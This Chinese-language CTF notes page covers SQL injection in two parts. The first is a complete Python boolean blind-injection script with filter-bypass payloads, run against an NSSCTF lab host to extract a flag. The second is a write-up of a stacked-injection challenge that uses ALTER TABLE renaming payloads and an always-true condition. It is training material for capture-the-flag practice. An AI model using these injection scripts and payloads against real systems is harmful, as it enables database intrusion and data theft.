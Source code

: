 ![[Pasted image 20231204143319.png]]


### bool盲注
```python
import requests
 
asc_str = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
burp0_url = "http://node1.anna.nssctf.cn:28300/"
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36",
                 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
                 "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
                 "Accept-Encoding": "gzip, deflate",
                 "Content-Type": "application/x-www-form-urlencoded"
                 }
content = ''
 
for pos in range(1, 100):
    min_num = 32
    max_num = 126
    mid_num = (min_num + max_num) // 2
    while(min_num < max_num):
        # payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(schema_name)/**/from/**/information_schema.schemata),{},1))>{})/**/!=!/**/'1".format(pos, mid_num)
        # payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='test'),{},1))>{})/**/!=!/**/'1".format(pos, mid_num)
        # payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='flag'),{},1))>{})/**/!=!/**/'1".format(pos, mid_num)
        payload = "tarnish'/**/!=!/**/(ascii(mid((select/**/group_concat(flag)/**/from/**/test.flag),{},1))>{})/**/!=!/**/'1".format(pos, mid_num)
        burp0_data = {"username": payload}#tarnish是题目给的要求
        resp = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
        if 'string(39)' in resp.text:
            min_num = mid_num + 1
        else:
            max_num = mid_num
        mid_num = (min_num + max_num) // 2
    content += chr(min_num)
    print(content)
```

## 堆叠注入：
[强网杯 2019]随便注 mmkjhhsd的WriteUp

 2023-11-28 19:31 By  ![](

mmkjhhsd


### 前置知识

### alter

修改表名 `alter table 表名 rename 新表名;`

修改字段名 `alter table 表名 change 旧字段名 新字段名 类型;`

## 注入过程

首先我们通过使用`1'` 发现报错说明是字符型单引号

根据题目标签提示有堆叠注入  
我们使用`1';show+tables;#`获取到所有的表  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/38d2e10bec.jpg)  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/77a033f4fc.jpg)

然后使用`show columns from 表名;`获取到表中的字段名  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/9c6e585746.jpg)  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/0c1f11337c.jpg)  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/8a66743ddf.jpg)  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/8916e2657f.jpg)

通过观察 words表单有两列, 也就是上面的 1 和 hahahah  
我们可以推测 这个表单其实是从words表中以`id`字段为索引获取到内容 然后返回到前台  
并且后台的查询语句为`"select * from words where id='".$_GET['inject']."'"`

那么 我们是不是可以通过修改带flag字段的表的名字为words表 然后把flag 字段修改为id  
通过三条alter语句来修改

- 修改words表名为其他的
    - `alter table words rename words1;`
- 修改1919810931114514表名为words
    - alter table `1919810931114514` rename words;
- 修改新的words表中的flag列名为id
    - alter table words change flag id varchar(60);  
        得到最终payload `1';alter table words rename words1;alter table` 1919810931114514 `rename words;alter table words change flag id varchar(60);#`

提交payload  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/52f8679f9b.jpg)  
然后刷新页面  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/7bb57a27f0.jpg)  
发现没结果了, 原因是新的id列中的值已经变为flag值了 所以查询inject=1查不到  
我们可以通过让where条件永远为正查出来所有数据  
构造payload`1' or '1'='1`  
获取到flag值  
![NSSIMAGE](https://www.nssctf.cn/files/2023/3/8/856243ae01.jpg)